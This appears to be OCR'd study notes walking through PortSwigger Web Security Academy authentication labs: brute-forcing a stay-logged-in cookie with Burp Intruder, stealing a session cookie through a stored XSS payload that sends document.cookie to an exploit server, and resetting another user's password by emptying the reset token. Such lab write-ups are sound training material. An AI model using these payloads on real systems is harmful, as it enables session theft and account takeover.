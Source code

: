 ```
Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw;

Base64 - wiener:51dc30ddc473d43a6011e9ebba6ca770
MD5 Password - peter:51DC30DDC473D43A6011E9EBBA6CA770
Stay LoggedIn Cookie: Base64 Encoded, username:md5(password)
```

1. In Burp Intruder, add a payload position to the stay-logged-in cookie and add your own password as a single payload.
2. Under "Payload processing", add the following rules in order. These rules will be applied sequentially to each payload before the request is submitted. • Hash: MD5 • Add prefix: carlos: • Encode: Base64-encode

Y2FybG9zOjg0ZDk2MTU2OGE2NTA3M2EzYmNmMGViMjE2YjJhNTc2 - valid

### Lab: Offline password cracking

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality.

`Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; Base64 Encoded Cookie stay-logged-in=wiener:51dc30ddc473d43a6011e9ebba6ca770`

The comment functionality is vulnerable to XSS.

```
<script>document.location='//ac441f181f6374b1c0b70a03003c0050.web-security-academy.net/'+document.cookie</script>
```

Post a comment with this payload (own exploit server ID).

On the exploit server, open the access log. **You will see target's cookie value.**

Decoded -> carlos:26323c16d5f4dabff3bb136f2460a943 - Google it - onceuponatime

### Lab: Password reset broken logic

This lab's password reset functionality is vulnerable.

Forgot password -> Email client

https://ac8f1f081e8f4f81c0fb05ab00cb0042.web-security-academy.net/forgot-password?temp-forgot-password-token=7breF0xOthS6aVfgd0LfvZpbxnnaEwAO

```
POST /forgot-password?temp-forgot-password-token= HTTP/1.1
temp-forgot-password-token=&username=carlos&new-password-1=peter&new-password-2=peter
```

We deleted token value, and then change the username. The website does not control token value is exist. There is a weakness. We can change any user's password which we want.

## Password reset poisoning

[https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning)
